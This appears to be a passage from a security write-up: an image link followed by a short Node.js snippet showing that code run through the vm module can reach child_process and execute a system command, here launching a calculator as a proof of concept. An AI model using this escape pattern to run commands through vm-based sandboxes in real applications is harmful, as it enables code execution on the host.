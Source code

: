[![](assets/1706959000-39ce6adc2473215b8e1781e48d234641.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140416-bc53c496-bc10-1.png)

```plain
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

context = vm.createContext(sx)
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`, context);
console.log(result)
```
